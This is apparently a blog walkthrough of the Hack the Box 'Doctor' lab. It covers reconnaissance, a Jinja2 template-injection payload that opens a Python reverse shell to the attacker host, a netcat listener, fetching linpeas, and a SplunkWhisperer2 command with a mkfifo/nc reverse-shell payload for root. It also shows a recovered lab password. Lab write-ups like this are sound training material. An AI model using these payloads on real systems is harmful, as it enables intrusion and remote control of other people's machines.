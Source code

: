 +++
author = "Nick"
categories = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
date = 2021-05-01T17:02:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2020/11/doctor.png"
slug = "hack-the-box-doctor"
tags = ["hack the box", "easy", "Linux", "splunk", "reverse shell", "Server Side Template Injection"]
title = "Hack the Box - Doctor"

+++


Welcome back! Today we are doing the Hack the Box machine - Doctor. This machine is listed as an Easy Linux machine. Let's jump in!

At this point, you know how we kick it off. That's right, `nmap`.

Command:
`nmap -sC -sV -p- -oA allscan 10.10.10.209`

Here are our results:
```
Nmap scan report for 10.10.10.209
Host is up (0.045s latency).                                                                                                                                                                       
Not shown: 65532 filtered ports                                                                                                                                                                    
PORT     STATE SERVICE  VERSION                                                                                                                                                                    
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)                                                                                                               
| ssh-hostkey:                                                                                                                                                                                     
|   3072 59:4d:4e:c2:d8:cf:da:9d:a8:c8:d0:fd:99:a8:46:17 (RSA)                                                                                                                                     
|   256 7f:f3:dc:fb:2d:af:cb:ff:99:34:ac:e0:f8:00:1e:47 (ECDSA)                                                                                                                                    
|_  256 53:0e:96:6b:9c:e9:c1:a1:70:51:6c:2d:ce:7b:43:e8 (ED25519)                                                                                                                                  
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))                                                                                                                                             
|_http-server-header: Apache/2.4.41 (Ubuntu)                                                                                                                                                       
|_http-title: Doctor                                                                                                                                                                               
8089/tcp open  ssl/http Splunkd httpd                                                                                                                                                              
| http-robots.txt: 1 disallowed entry                                                                                                                                                              
|_/                                                                                                                                                                                                
|_http-server-header: Splunkd                                                                                                                                                                      
|_http-title: splunkd                                                                                                                                                                              
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser                                                                                                                
| Not valid before: 2020-09-06T15:57:27                                                                                                                                                            
|_Not valid after:  2023-09-06T15:57:27                                                                                                                                                            
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel                                                                                                                                            
                                                                                                                                                                                                   
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                                     
Nmap done: 1 IP address (1 host up) scanned in 150.43 seconds  
```

So not much to see. We have a required key SSH option, a site being hosted  on 80 and potentiall 8089. It would seem that a path forward could be through `Splunk`. Awesome! As someone that uses Splunk on the daily, this should be fun.

When we visit the site being hosted, we are greated with a site dedicated to doctors. We see a site listed as doctors.htb, so we'll add that to our hosts lists. This way we can fuzz additional subdomains.

Next we kick of a `gobuster` scan to see what we can find.

Command:
`gobuster dir -u doctors.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php -t 40`

We get back some basic pages.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-7.png" >}}

Let's try to access some of these 'hidden' pages, like `archive` and `login`. Nothing is there. If we navigate to 'doctors.htb' we are prompted with a login page. Checking the source does show the `archives` page as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-8.png" >}}

We can test the login page for basic injections but doesn't seem to be anything there. We can register an account though. We create the account and are given 20 minutes of access. Once we get authenticated we have a very small interface to work with.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-9.png" >}}

We can create new messages it seems.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-10.png" >}}

It's possible this field has some injection options. If we submit an `<h1>` tag, we can see it does reflect the HTML code.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-11.png" >}}

What's interesting about this is that the messages we send are also posted over to `/archive` as well.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-12.png" >}}

As we do more recon about the site, we see that `wappalyzer` has the site framework as `python`. So there are a few scenarios here. This form could be `XSS` or it oculd be `Template Injection` vulnerable. My guess would be the latter. You can read more on `Template Injection` [here](https://portswigger.net/research/server-side-template-injection).

If we google Python Template engine, we see the first result is `jinja`. If we google jinja template injection we see a few options, a good resource being [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings

We can test against this use case by doing just what's listed:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-13.png" >}}

Sure enough, we do get the expected results!

![](src="__GHOST_URL__/content/images/2020/11/1.png" width="272" height="166")![](src="__GHOST_URL__/content/images/2020/11/12.png" width="293" height="96")

So now, how do we leverage this? We simply leverage the supplied [Remote Code statement](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-popen-without-guessing-the-offset)!

Since it is `python` based, we can actually modify this statement to supply a standard `python` remote shell.

```python
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.169\",9090));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\", \"-i\"]);'").read().zfill(417)}}{%endif%}{% endfor %}
```

We also need to ensure our listener is running on port 9090.

Command:
`nc -lvnp 9090`

We submit the message, check the archive page and we get a shell!

{{< figure src="__GHOST_URL__/content/images/2020/11/image-15.png" >}}

Now that we have a low level shell, we can enumerate and escalate. We'll copy over `linpeas` and see what show up.

Make sure you have a web server running in your peas location.

Command:
`python -m SimpleHTTPServer 80`

Then download `linpeas`.

Command:
`wget 10.10.14.169/linpeas.sh`

Change the file permissions.

Command:
`chmod +x linpeas.sh` 

Then run it.

There's a lot to sift through. We do however, find a password in an old backup file:

{{< figure src="__GHOST_URL__/content/images/2020/11/image-16.png" >}}

We can a assume the user typed his password in the email field here. And given the lines below it, make the assumption that the user is shaun. We'll just switch to Shaun and see.

Command:
`su shaun`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-17.png" >}}

Now if we upgrade our shell and snag our `user.txt` flag. Once we have it, we can start enumerating again. We'll re-run `linpeas` and see what it can find. An item that semi-sticks out is that `root` is running the `splunkd` process.

{{< figure src="__GHOST_URL__/content/images/2020/11/image-18.png" >}}

If you've spent anytime working with `Splunk` you know this is a potentially bad scenario. Items like [SplunkWhisperer2](https://github.com/DaniloCaruso/SplunkWhisperer2) can make for a really bad day.

We'll clone the repo.

Command:
`git clone https://github.com/DaniloCaruso/SplunkWhisperer2`

Now we can use this to escalate our privileges. Simply supply the right commands to get a shell back or even just snag our flag file.

Command:
`python PySplunkWhisperer2_remote.py --lhost 10.10.14.169 --host 10.10.10.209 --username shaun --password Guitar123 --payload '/bin/bash -c "rm /tmp/zzz;mkfifo /tmp/zzz;cat /tmp/zzz|/bin/sh -i 2>&1|nc 10.10.14.169 6666 >/tmp/zzz"'`

{{< figure src="__GHOST_URL__/content/images/2020/11/image-19.png" >}}

We  get a shell back as root! We get our flag and the box is done!



